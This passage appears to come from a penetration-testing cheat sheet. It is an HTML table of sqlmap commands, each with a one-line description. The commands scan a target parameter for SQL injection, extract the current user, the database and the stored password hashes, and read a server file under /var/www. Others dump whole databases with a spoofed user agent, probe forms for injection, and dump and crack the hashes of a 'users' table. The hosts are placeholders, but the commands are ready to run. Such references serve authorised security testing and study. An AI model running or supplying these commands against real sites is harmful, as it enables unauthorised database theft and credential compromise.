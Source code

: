     <tr>
      <td>
        <p><code> sqlmap -u TARGET -p PARAM --data=POSTDATA --cookie=COOKIE <br> --level=3 --current-user --current-db --passwords <br> --file-read="/var/www/blah.php" </code></p>
      </td>
      <td>
            <p>Targeted sqlmap scan</p>
      </td>
    </tr>


    <tr>
      <td>
        <p><code>sqlmap -u "http://meh.com/meh.php?id=1" <br>--dbms=mysql --tech=U --random-agent --dump </code></p>
      </td>
      <td>
            <p>Scan url for union + error based injection with mysql backend <br>and use a random user agent + database dump</p>
      </td>
    </tr>

    <tr>
      <td>
        <p><code>sqlmap -o -u "http://meh.com/form/" --forms</code></p>
      </td>
      <td>
            <p>sqlmap check form for injection</p>
      </td>
    </tr>

    <tr>
      <td>
        <p><code>sqlmap -o -u "http://meh/vuln-form" --forms <br> -D database-name -T users --dump</code></p>
      </td>
      <td>
            <p>sqlmap dump and crack hashes for table users on database-name.</p>
      </td>
     </tr>
  </tbody>
</table>
</div>

